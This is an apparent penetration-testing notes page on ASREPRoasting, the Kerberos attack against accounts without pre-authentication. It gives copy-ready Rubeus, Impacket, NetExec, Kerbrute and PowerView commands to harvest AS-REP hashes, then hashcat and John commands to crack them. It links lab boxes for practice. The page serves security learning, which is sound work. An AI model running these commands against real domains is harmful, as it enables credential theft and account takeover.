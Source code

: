 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# ASREPRoasting

## TL;DR&#x20;

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**. If an account has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **Authentication Service - Response (AS-REP)**. The AS-REP contains the **TGT** which is encypted with the account's password hash which, depending on its strength, can be potentially cracked.

<figure><img src="../../../.gitbook/assets/kerberos_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="PowerView (UserEnum)" %}
{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus" %}
```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```
{% endtab %}
{% endtabs %}

## Linux <a href="#linux" id="linux"></a>

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetNPUsers.py DOMAIN/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users.lst
```
{% endtab %}

{% tab title="Kerbrute" %}
```bash
kerbrute userenum -d DOMAIN --dc 172.16.5.5 /opt/jsmith.txt 
```
{% endtab %}
{% endtabs %}

## Hash cracking

{% tabs %}
{% tab title="Hashcat" %}
```
hashcat -m 18200 user_hash /usr/share/wordlists/rockyou
```
{% endtab %}

{% tab title="John" %}
{% code overflow="wrap" %}
```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 asreproastable_users
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Forest (Easy)" %}
{% content-ref url="../../../boxes/easy/forest.md" %}
[forest.md](../../../boxes/easy/forest.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sauna (Easy)" %}
{% content-ref url="../../../boxes/easy/sauna.md" %}
[sauna.md](../../../boxes/easy/sauna.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Blackfield (Hard)" %}
{% content-ref url="../../../boxes/hard/blackfield-tbc.md" %}
[blackfield-tbc.md](../../../boxes/hard/blackfield-tbc.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Kerberos" %}
{% embed url="https://blog.notso.pro/2020-05-07-offops-in-ad-0/" %}
A great article detailing each step of the Kerberos process.
{% endembed %}
{% endtab %}

{% tab title="GetNPUsers" %}
{% embed url="https://www.youtube.com/watch?v=pZSyGRjHNO4" %}
The workings of GetNPUsers script!
{% endembed %}
{% endtab %}

{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=wA9w8t1fRWo" %}
ASREPRoasting in 10 minutes!
{% endembed %}
{% endtab %}
{% endtabs %}
